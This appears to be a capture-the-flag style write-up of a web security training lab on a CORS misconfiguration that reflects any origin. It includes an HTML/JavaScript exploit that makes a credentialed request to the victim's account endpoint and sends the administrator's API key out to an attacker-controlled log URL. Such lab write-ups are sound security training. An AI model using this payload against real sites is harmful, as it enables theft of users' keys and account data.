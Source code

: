 # CORS vulnerability with basic origin reflection
# Objective
This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The `GET` request to `/accountDetails` retrieves: username, email, apikey and active user sessions.
|![](Images/image.png)|
|:--:| 
| *Normal request and response* |

After adding `Origin` header to the request, the application reflects the origin in `Access-Control-Allow-Origin` header.
|![](Images/image-1.png)|
|:--:| 
| *Reflected origin in response* |

## Exploitation
In order to exploit this CORS vulnerability, attacker can use the followinng code:
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial">
    </head>
    <body>
        <h4>Exploit</h4> 
        <script>
            const request = new XMLHttpRequest();
            request.open("get","https://0a3b0009039f11b0803c6ccd009d006b.web-security-academy.net/accountDetails", true);
            request.onload = ()=> {
                window.location.href = "/log?key=" + request.responseText
            }
            request.withCredentials = true;
            request.send();
        </script>
    </body>
</html>
```

|![](Images/image-2.png)|
|:--:| 
| *Log with administrator API key* |
|![](Images/image-3.png)|
| *URL decode data* |
